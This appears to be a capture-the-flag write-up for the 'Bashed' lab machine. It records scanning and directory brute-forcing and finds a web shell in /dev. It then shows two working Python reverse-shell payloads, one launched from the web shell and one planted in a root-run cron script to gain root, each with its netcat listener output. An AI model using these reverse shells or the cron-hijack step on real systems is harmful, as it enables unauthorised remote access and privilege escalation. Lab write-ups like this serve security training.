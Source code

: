### Bashed

Machine ip: 10.10.10.68

## Scanning

### Nmap Scanning

```bash
$ cat nmap/initial.nmap  
# Nmap 7.91 scan initiated Thu Aug 19 16:10:22 2021 as: nmap -sC -sV -oA nmap/initial 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up (0.099s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 19 16:10:34 2021 -- 1 IP address (1 host up) scanned in 12.19 seconds
```

- Home page

![homepage](../images/bashed/homepage.PNG)

- No other pages seem to work, so run dirbuster

- on running `dirbuster`, found following directories and files

```bash
$ Starting OWASP DirBuster 1.
Starting dir/file list based brute forcing
Dir found: / - 200
Dir found: /images/ - 200
Dir found: /icons/ - 403
File found: /index.html - 200
File found: /single.html - 200
Dir found: /js/ - 200
File found: /js/jquery.js - 200
File found: /js/imagesloaded.pkgd.js - 200
File found: /js/jquery.nicescroll.min.js - 200
Dir found: /demo-images/ - 200
File found: /js/jquery.smartmenus.min.js - 200
File found: /js/jquery.carouFredSel-6.0.0-packed.js - 200
File found: /js/custom_google_map_style.js - 200
File found: /js/jquery.mousewheel.min.js - 200
File found: /js/html5.js - 200
File found: /js/jquery.touchSwipe.min.js - 200
File found: /js/jquery.easing.1.3.js - 200
File found: /js/main.js - 200
Dir found: /uploads/ - 200
Dir found: /php/ - 200
File found: /php/sendMail.php - 200
Dir found: /css/ - 200
File found: /css/carouFredSel.css - 200
File found: /css/clear.css - 200
File found: /css/common.css - 200
File found: /css/font-awesome.min.css - 200
File found: /css/sm-clean.css - 200
Dir found: /icons/small/ - 403
Dir found: /dev/ - 200
```

- Out of all `/dev` seems to be interesting and on opening the directory found `phpbash.php` which is running on lightweight bash on the browser.
- Create a reverse shell to connect back to kali machine

__Reverse shell__

```bash
www-data@bashed: /usr/bin/python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.21",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

- Now set up the listener and wait for the connection

__Result__

```bash
$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.68] 55660
$ ls
ls
bin   etc	  lib	      media  proc  sbin     sys  var
boot  home	  lib64       mnt    root  scripts  tmp  vmlinuz
dev   initrd.img  lost+found  opt    run   srv	    usr
```


## Privilege Escalation

- on running `sudo -l`

```bash
www-data@bashed:/home/scriptmanager$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

- running/switching `scriptmanager` user

```bash
www-data@bashed:/home/scriptmanager$ sudo -u scriptmanager bash
sudo -u scriptmanager bash
scriptmanager@bashed:~$ ls
```

- found a schedules task in `/scripts/test.py` which is run by root
- change the contents and place the reverse shell in place of `test.py` content


- `test.py` after  modifying
```bash
#!/usr/bin/python

import os


import socket
import pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.2",4242))
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
pty.spawn("/bin/sh")

```

- Now set up the listener and wait for the connection

__Result__

```bash
$ nc -lvnp  4242
listening on [any] 4242 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.68] 52878
# id
id
uid=0(root) gid=0(root) groups=0(root)
```






